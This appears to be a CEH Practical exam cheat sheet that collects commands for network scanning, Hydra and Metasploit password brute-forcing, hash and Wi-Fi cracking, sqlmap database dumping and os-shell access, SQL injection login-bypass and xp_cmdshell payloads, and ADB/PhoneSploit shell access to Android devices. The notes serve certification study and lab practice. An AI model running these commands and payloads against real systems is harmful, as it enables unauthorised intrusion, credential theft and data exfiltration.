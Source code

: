 Reference: 
https://github.com/DarkLycn1976/CEH-Practical-Notes-and-Tools
https://github.com/hunterxxx/CEH-v12-Practical
https://medium.com/@abdulmajidjamil/ceh-practical-lpt-master-ctf-notes-in-general-d0cb7007dacd
https://immpetus.gitbook.io/ceh-practical/nmap-tool

# Scanning

  
<details>
  <summary>Netdiscover</summary>





## Netdiscover 
  
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```
 </details> 

<details>
  <summary>Nmap</summary>

 * NMAP Scripts
```console
nmap -p 389 -T4 -A -v --script ldap-rootdse nnn.nnn.nnn.nnn/nn
nmap --script ftp-brute -p 21 <host>
Nmap -Pn -p 3389 target > rdp  // grep -B 5 open rdp
Nmap -Pn -p 3306 target > mysql // grep -B 5 open mysql
```

 * Certain port scans
```console
Nmap -Pn -p 3389 target > rdp  // grep -B 5 open rdp
Nmap -Pn -p 3306 target > mysql // grep -B 5 open mysql
nmap -p443,80,53,135,8080,8888 -A -O -sV -sC -T4 -oN nmapOutput 10.10.10.10
```

* To scan the live Host
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
```
* To find the Specific open port 
```console
nmap -p port x.x.x.1/24 --open
```
* To find the OS 
```console
nmap -O x.x.x.x 
```
* Comprehensive Scan
```console
nmap -Pn -A x.x.x.1/24 -vv --open   
```

</details>

# If have web service, try enumerate:
<details>
  <summary>Gobuster</summary>
  
```shell
gobuster -e -u http://10.10.10.10 -w wordlsit.txt
```
</details>

<details>
  <summary>Dirb</summary>
  
```shell
dirb http://10.10.10.10 wordlist.txt
```
</details>


# Credential / Password Attacks
<details>
   <summary>Bruteforce SMB</summary>

* SMB Cracking with Hydra
  
```console
hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
```
* SMB Cracking with Metasploit

```console
For Cracking SMB Password:
we need to make folder -> store wordlist into that -> run msf from that folder | This process makes your work even better and smooth.
>msfconsole .
>use auxiliary/scanner/smb/smb_login
>show option | To get an idea of what to set on
>set PASS_FILE ./ROKYOU.TXT
>set rhost {target IP address} | notes :- rhost means remote host
>set SMBUser name [of the user] | (generally Administrator is username)
>run
```
</details>


  </details>

<details>
  <summary>Bruteforce SSH</summary>
  
```console
hydra -l username -P passlist.txt x.x.x.x ssh
```
</details>

<details>
  <summary>Bruteforce TELNET</summary>
  
```console
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```
</details>

<details>
  <summary>Bruteforce FTP</summary>

```console
    TRY user "annoymous" + no password
  ```
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

• If the service isn't running on the default port, use -s
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221

• Used to download the specific file from FTP to attacker or local machine
get flag.txt ~/Desktop/filepath/flag.txt


```
</details>

<details>
 <summary>Password Cracking - John</summary>

```console
john --single --format=md5crypt crack.txt
```
</details>

<details>
 <summary>Password Cracking - Hashcat</summary>

```console
Hashcat
```
</details>

<details>
 <summary>Password Cracking - WIFI Encryption </summary>

```console
aircrack-ng -w rockyou.txt capture-01.cap
```

</details>





# Vulnerability Scanning 

<details>
  <summary>Nessus</summary>
  
```console
Nessus runs on https[:]//localhost[:]8834
```
</details>

<details>
  <summary>Nikto</summary>
  
```console
nikto -h 
```
</details>

# Hidden text

<details>
  <summary>Snow</summary>
  
```console
snow -C -p "magic" readme2.txt
```
</details>

<details>
<summary>Steghide</summary>

```console
```
</details>




# WIRESHARK
<details>

  ```shell
    select_packet > follow > TCP Stream
  ```
  * To the get the specific method like ( post , get )
  
  ```console
  http.request.method==post
  http.request.method==get
  ```
  * To the Find DOS & DDOS, go to Statistics and Select Conversations , sort by packets in IPv4 based on number of Packets transfer
  
  ```shell
  Statistics > Conversations > IPv4 > Packets
  ```
View Flood attack on victim via Wireshark 
```console
•	| use filter tcp.port=21 
 ```
https://www.comparitech.com/net-admin/wireshark-cheat-sheet/
</details>



# SQL

<details>

```console
SQLMAP Extract DBS
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs

Extract Tables
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables

Extract Columns
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns

Dump Data
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump

OS Shell to execute commands
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell

Login bypass
•	blah' or 1=1 --

Insert data into DB from login
•	blah';insert into login values ('john','apple123');

Create database from login
•	blah';create database mydatabase;

Execute cmd from login
•	blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --
```

Other SQLi
```shell
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—
```


SQLMAP

```shell
* For finding DBs:
sqlmap -u "------/id=1" --dbs --batch
sqlmap -u "https://bliss-hotel.000webhostapp.com/room_details.php?room_type_id=RM101" --dbs --batch

* Find DBs 
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch

* Find Tables =
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --table --batch

* Find columns = 
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch

* Dump table =
 sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --dump --batch

* Dump the DB =
 sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --dump-all --batch

* Using cookies : 
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx' --random-agent --level=1 --risk=3 --dbs --batch

* manual SQL Injection
in login page enter blah' or 1=1-- as username and click login without entering the password

* GET access of OS Shell = 
sqlmap -u 'url' --dbms=mysql --os-shell SQL Shell = sqlmap -u 'url' --dbms=mysql --sql-shell
```

</details>
</details>





# VERACRYPT 


# CUSTOM WORDLIST 

<details>
<summary>Cewl</summary>
  
* cewl is the tool, example.com is the site, -m is to specify the minimum length of the word , -w is to specify the output file
  
```console
cewl example.com -m 5 -w words.txt
```
</details>



# MOBILE 

<details>
  <summary>ADB</summary>
  
* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>

<details>
  <summary>PhoneSploit</summary>
  
* To install Phonesploit 

```console
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama
```
* To run Phonesploit
```console
python3 phonesploit.py
```
* Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
* Type 4, to Access Shell on phone
* Download File using PhoneSploit
```console
9. Pull Folders from Phone to PC
```
* Enter the Full Path of file to Download
```console
sdcard/Download/secret.txt
```  
</details>




# resources 

* https://github.com/nirangadh/ceh-practical/blob/main/module03-Scanning-Networks.txt
* https://github.com/Samson-DVS/CEH-Practical-Notes/tree/main

